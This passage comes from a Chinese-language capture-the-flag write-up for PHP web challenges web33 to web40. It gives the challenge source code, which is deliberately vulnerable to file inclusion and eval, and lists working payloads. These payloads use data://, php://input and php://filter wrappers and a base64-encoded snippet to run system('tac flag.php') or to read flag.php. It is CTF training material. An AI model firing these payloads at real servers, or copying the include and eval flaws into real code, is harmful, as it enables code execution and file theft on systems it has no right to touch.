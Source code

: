 ```
?c=include$_GET[a]?>&a=data://text/plain,<?=system('tac flag.php');?>
```

```
?c=?><?=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
```

## web34~36

这几题就是正则过滤各不一样

```
?c=include$_GET[a]?>&a=data://text/plain,<?=system('tac flag.php');?>
?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
```

## web37~39

37题题目

```php
<?php

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```

包含&伪协议&通配符

```
?c=data://text/plain,<?=system('tac fla*');?>
?c=php://input     post:<?php system('tac flag.php');?>
```

```
?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==
```

## web40

```php
<?php

if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
}
```
